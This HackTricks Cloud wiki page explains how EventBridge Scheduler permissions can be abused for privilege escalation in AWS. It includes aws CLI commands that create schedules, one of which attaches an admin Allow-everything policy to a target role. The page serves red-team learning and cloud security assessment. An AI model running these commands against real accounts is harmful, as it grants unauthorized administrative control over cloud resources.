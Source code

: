 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler can be used for privilege escalation by scheduling calls to various AWS services. By leveraging its ability to invoke services on a scheduled basis, users with sufficient permissions can escalate privileges. Here are some of the key actions EventBridge Scheduler can trigger using templated targets:

- Lambda: lambda:InvokeFunction - Invoke Lambda functions on a schedule.
- CodeBuild: codebuild:StartBuild - Start AWS CodeBuild projects.
- CodePipeline: codepipeline:StartPipelineExecution - Trigger AWS CodePipeline executions.
- ECS: ecs:RunTask - Run ECS tasks.
- EventBridge: events:PutEvents - Put events into EventBridge.
- Inspector: inspector:StartAssessmentRun - Start Amazon Inspector assessments.
- Kinesis: kinesis:PutRecord - Put records into Kinesis streams.
- Firehose: firehose:PutRecord - Put records into Firehose delivery streams.
- SageMaker: sagemaker:StartPipelineExecution - Start SageMaker pipeline executions.
- SNS: sns:Publish - Publish messages to SNS topics.
- SQS: sqs:SendMessage - Send messages to SQS queues.
- Step Functions: states:StartExecution - Start executions of AWS Step Functions.

These are just some of the templated actions EventBridge Scheduler can perform. However, by using universal targets, many other actions across AWS services can be invoked. Universal targets allow for more extensive API operations beyond the templated list.

More info EventBridge Scheduler in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Users with `sts:AssumeRole`, `iam:PassRole`, and `scheduler:CreateSchedule or scheduler:UpdateSchedule` permissions can escalate privileges by leveraging the EventBridge Scheduler to invoke services using a role with higher privileges.

With these permissions, an attacker can assume a role with elevated privileges and pass that role to EventBridge Scheduler when creating or updating a schedule. The schedule can be configured to perform any of the actions listed previously, such as invoking Lambda functions, starting ECS tasks, triggering CodePipeline executions, or any operation of the 270 AWS services supported by EventBridge Scheduler. By scheduling these actions, an attacker could abuse higher privileges to perform unauthorized operations across AWS services.
\\

For example, they could configure the schedule to invoke a Lambda function which is a templated action:

```bash
aws scheduler create-schedule \
    --name MyLambdaSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{
        "Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
        "RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
    }'
```

In addition to templated service actions, you can use universal targets in EventBridge Scheduler to invoke a wide range of API operations for many AWS services. Universal targets offer flexibility to invoke almost any API. One example can be using universal targets adding "AdminAccessPolicy", using a role that has "putRolePolicy" policy:
```bash
aws scheduler create-schedule \                                           
    --name GrantAdminToTargetRoleSchedule \
    --schedule-expression "rate(5 minutes)" \
    --flexible-time-window "Mode=OFF" \
    --target '{               
        "Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
        "RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
        "Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"                
    }'
```

## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

